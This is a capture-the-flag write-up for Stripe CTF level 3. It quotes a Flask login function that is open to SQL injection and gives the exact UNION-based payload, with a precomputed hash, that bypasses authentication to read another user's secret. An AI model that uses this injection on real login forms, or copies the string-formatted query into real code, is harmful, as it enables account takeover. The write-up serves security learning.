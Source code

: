 Stripe CTF: Level #3
####################
:date: 2012-10-26 23:34
:author: useless
:category: Write-up
:slug: stripe-ctf-level-3
:status: published

.. image:: /images/stripe-ctf-level-3/level03-logo.png
    :alt: level03-logo.png
    :align: center

You can find the code for this level
`here </docs/stripe-ctf-level-3/level03-code.tar.gz>`__.

(sha256: :code:`8710c082daed1839806addebeda44c6e5496d44a33f7eb3f23a577b6a5fc26d5`)

The company who built the vault of level 0 learned its lesson: you now
have to identify before accessing your guarded secrets.

The company kindly tells you that other users have already chosen to
use their product, and even what the stored secrets are.

.. image:: /images/stripe-ctf-level-3/level03-index.png
    :alt: level03-index.png
    :align: center

Sorry for math and physics fan, but we'll focus on bob's secret.

So, let's look at the code used to identify users:

.. code-block:: python

    # File secretvault.py, line 74
    def login():
        username = flask.request.form.get('username')
        password = flask.request.form.get('password')

        if not username:
            return "Must provide username\n"

        if not password:
            return "Must provide password\n"

        conn = sqlite3.connect(os.path.join(data_dir, 'users.db'))
        cursor = conn.cursor()

        query = """SELECT id, password_hash, salt FROM users
                WHERE username = '{0}' LIMIT 1""".format(username)
        cursor.execute(query)

        res = cursor.fetchone()
        if not res:
            return "There's no such user {0}!\n".format(username)
        user_id, password_hash, salt = res

        calculated_hash = hashlib.sha256(password + salt)
        if calculated_hash.hexdigest() != password_hash:
            return "That's not the password for {0}!\n".format(username)

        flask.session['user_id'] = user_id
        return flask.redirect(absolute_url('/'))

Wow. Hashed passwords, and even salt! Seems pretty secure. But the
statements aren't prepared: they are vulnerable to SQL injection. We are
gonna use a :code:`UNION` statement, to force the id, the password's
hash and the salt to be arbitrary values. We can see from the
:code:`generate_data.py` file that the default users were added in a
random order, so we don't know what bob's id is. Since there are only
three values, we can try each by hand. For the sake of simplicity, we'll
suppose here that bob's id is 1.

So, let's say we put this as a user in the form:

:code:`dummy-user' UNION SELECT 1, 'hash', 'salt`

The statement will become:

.. code-block:: sql

    SELECT id, password_hash, salt FROM users WHERE username = 'dummy-user' UNION SELECT 1, 'hash', 'salt' LIMIT 1

This way, the first part of the statement will yield an empty row, and
the second part will yield 1, 'hash', 'salt'. If we want to connect with
the password 'foo', with the salt 'bar', we can compute the password's
hash:

:code:`sha256('foobar') =
c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2`

We fill the form this way:

:code:`user = dummy-user' UNION SELECT 1,
'c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2',
'bar`

and

:code:`password = foo`

.. image:: /images/stripe-ctf-level-3/level03-filled-form.png
    :alt: level03-filled-form.png
    :align: center

We just have to submit to retrieve bob's secret:

.. image:: /images/stripe-ctf-level-3/level03-w00t.png
    :alt: level03-w00t.png
    :align: center

w00t!

